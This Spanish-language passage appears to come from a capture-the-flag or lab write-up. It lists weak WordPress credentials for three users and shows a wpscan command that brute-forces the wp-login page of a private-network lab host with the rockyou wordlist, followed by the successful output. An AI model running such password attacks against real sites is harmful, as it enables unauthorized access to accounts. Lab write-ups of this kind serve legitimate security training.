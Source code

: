

Obtenemos algunos credenciales :

- **harry** : *monkey*
- **garry** : *football*
- **scott** : *cookie*

<br>

### Fuerza Bruta con wpscan


Podemos aplicar fuerza bruta al loggin de forma automática y mas eficiente con `wpscan` pasándole un listado de usuarios y un listado de contraseñas.

```shell
wpscan --url https://10.10.0.9:12380/blogblog/ --disable-tls-checks --force -U wordpress_users.txt --password-attack wp-login -P /usr/share/wordlists/rockyou.txt
```
```output
-- output --

[+] Performing password attack on Wp Login against 10 user/s
[SUCCESS] - harry / monkey                                                                                                                                                              
[SUCCESS] - garry / football                                                                                                                                                            
[SUCCESS] - scott / cookie                                                                                                                                                              
[!] Valid Combinations Found:
 | Username: harry, Password: monkey
 | Username: garry, Password: football
 | Username: scott, Password: cookie

```

<br>

Al entrar en el wordpress con cualquiera de los credenciales observamos el mensaje de que no somo administrador, lo que nos restringe ciertas funciones como la subida de archivos que podríamos haber explotado ya que teníamos acceso a la ruta `https://10.10.0.9:12380/blogblog/wp-content/uploads/`
